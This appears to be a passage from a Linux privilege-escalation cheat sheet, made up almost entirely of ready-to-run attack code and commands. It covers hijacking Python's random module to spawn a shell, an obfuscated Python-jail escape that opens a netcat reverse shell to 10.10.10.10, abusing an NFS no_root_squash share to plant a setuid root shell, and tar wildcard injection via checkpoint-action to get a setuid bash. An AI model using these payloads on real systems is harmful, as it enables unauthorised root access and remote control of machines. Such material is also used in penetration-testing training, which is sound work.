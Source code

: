 ```python
#!/usr/bin/python
import os
print("This is a malicious random.py module.")
os.system("/bin/bash")
```
```python
#!/usr/bin/python
import random # this will run random.py instead of the original random package.

print("PrivEsc using Python Module Manipulation")
```
### Escaping Python jail to gain shell
```python
#!/usr/bin/python

__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 4444 >/tmp/f')
```
### Abusing NFS misconfiguration no_root_squash
Check if NFS share can be mounted on your local machine
```nix
showmount -e 10.10.10.10
```
Create a `/tmp/mount` and mount NFS share on your local machine to the created folder
```nix
mkdir /tmp/mount
```
```nix
mount -o rw,vers=2 10.10.10.10:/nfs /tmp/mount
```
Create `rootshell.c` and compile it
```c
int main() {
    setresuid(0,0,0);
    setresgid(0,0,0);
    system("/bin/bash");
}
```
```nix
gcc rootshell.c -o rootshell
```
Copy `rootshell` executable to the mounted share and set SUID bit
```nix
cp rootshell /tmp/mount
```
```nix
chmod +s /tmp/mount/rootshell
```
On target host, run the `rootshell` executable to gain root shell
```nix
/tmp/rootshell
```
## TAR Wildcard Injection
If a command is calling for a wildcard we may be able to inject a command instead. This is possible by tricking the `tar` command into running arbitrary commands as root using a wildcard injection. This works by using the `--checkpoint` and `--checkpoint-action` flags accepted by `tar`. Example of a vulnerable command:
```nix
tar -cf /opt/backups/website.tar *
```
In order to exploit this, we run the following commands inside the `/opt/backups` directory:
```nix
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```